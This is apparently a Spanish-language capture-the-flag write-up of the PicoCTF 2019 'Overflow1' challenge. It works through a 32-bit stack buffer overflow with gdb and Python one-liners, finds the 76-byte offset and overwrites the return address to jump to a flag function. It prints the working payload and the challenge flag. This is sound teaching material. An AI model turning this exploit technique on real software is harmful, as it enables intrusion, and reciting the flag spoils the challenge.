 ```yaml
---
layout      : post
title       : "PicoCTF2019 - Overflow1"
author      : lanz
image       : https://byte-off.com/wp-content/uploads/2017/04/PicoHeader-825x510.jpg
category    : [ ctf ]
tags        : [ buffer-overflow ]
---
```

Overflow pa toda la familia, nos moveremos a la función que contiene la flag.

> You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://github.com/lanzt/blog/blob/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln)? You can find it in /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 on the shell server. [Source](https://github.com/lanzt/blog/blob/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln.c).

### Spanish writeup

El ejercicio nos dice que debemos lograr cambiar la dirección de retorno y que nos lleve a la función `flag`.

Ya con los archivos hacemos:

```bash
$ file *
vuln:      ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
vuln.c:    C source, ASCII text
```

Veamos que hace el programa:

```bash
$ ./vuln 
Give me a string and lets see what happens: 
hello
Woah, were jumping to 0x8048705 !
```

Simplemente nos pide un input y nos dice la instrucción a la que hemos saltado. Así que cuando logremos llegar a la función `flag`, supongo que nos mostrara la dirección.

Source [vuln.c](https://github.com/lanzt/blog/blob/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln.c).

```c
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  ...
  fgets(buf,FLAGSIZE,f);
```

Algunos detalles de assembly antes de seguir:

| Registro | Arquitectura | Descripción |
| :------: | :----------: | :---------- |
| eip      | 32 bits      | El registro que almacena la siguiente instrucción a la cual ir |
| rip      | 64 bits      | Instruction pointer register |
| ebp      | 32 bits      | El registro que apunta a una ubicación fija dentro del marco de una función, así sera más fácil acceder a variables y argumentos |
| rbp      | 64 bits      | Base pointer register |

Siguiendo con el fuente, nos encontramos con un **buffer de 64**, haciendo la prueba de fuego:

```bash
$ python -c 'print "A"*64' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
```

Vemos que no pasa nada, ya que los siguientes `4 bits` guardaran la data que tenga el registro `ebp` y los siguientes 4 bytes tendrán la dirección de retorno (almacenada en `eip`).

* Lo explica [Dhaval Kapil en su brutal articulo](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/).

Sumaremos los **4 bytes del `eip`** y los **4 bytes del `ebp`**, se los agregamos a los **64 del buffer**:

```bash
$ python -c 'print "A"*72' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Violación de segmento
```

Obtenemos el overflow, tamos bien.

Saquemos la direccion en memoria de la función `flag`. Lo podemos hacer con `gdb`, `objdump`, `ida`.. Usa el de preferencia.

```bash
$ gdb ./vuln
info functions
...
0x080485e6  flag
...
```

Un detalle importante para este paso es conocer si nuestro sistema es [little-endian o big-endian](http://wikitronica.labc.usb.ve/index.php/Little_Endian_y_Big_Endian).

Esto decidirá como va a leer nuestro porcesador el programa. Si eres un `little-endian` (un pequeño indio e.e), entonces debemos colocar la dirección de `flag` en reverso.

* Ejemplo: `0x080485e6  flag` entonces pondremos `e6` `85` `04` `08`.

```bash
$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
Violación de segmento
```

**¿Por que habrá salido dos veces la instrucción?**

```bash
$ gdb ./vuln -q
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gdb-peda$ b vuln
Breakpoint 1 at 0x8048663
gdb-peda$ r <<< $(python -c 'print "A"*72 + "\xe6\x85\x04\x08"')
```

Continuamos...

```bash
gdb-peda$ c
Continuing.
Woah, were jumping to 0x8048700 !
[----------------------------------registers-----------------------------------]
EAX: 0x22 ('"')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffffff 
EDX: 0xf7fa4010 --> 0x0 
ESI: 0xf7fa2000 --> 0x1d6d6c 
EDI: 0xf7fa2000 --> 0x1d6d6c 
EBP: 0xffffd1b8 --> 0x80485e6 (<flag>:	push   ebp)
ESP: 0xffffd1b4 ("AAAA\346\205\004\b\005\207\004\b\001")
```

Aún no hemos llegado a la dirección de la función `flag`

```bash
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
```

Si intentamos `"A"*73` vemos esto:

```bash
$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
Woah, were jumping to 0x8040008 !
```

**Hemos cambiado el registro que direcciona!!**

Why?

> Sencillamente son los **4 bytes** que ocupa la dirección de la función `flag` que estamos agregando despues de imprimir las `"A"`.

```bash
$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```

```bash
Woah, were jumping to 0x80485e6 !
```

Y ahí lo tenemos, estamos en la dirección de la función `flag`.

Si lo corremos en el servidor remoto de picoCTF:

```bash
pico-2019:/$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```

<h3>picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}</h3>

Tenemos la flag (: Y hemos corrompido el flujo del programa.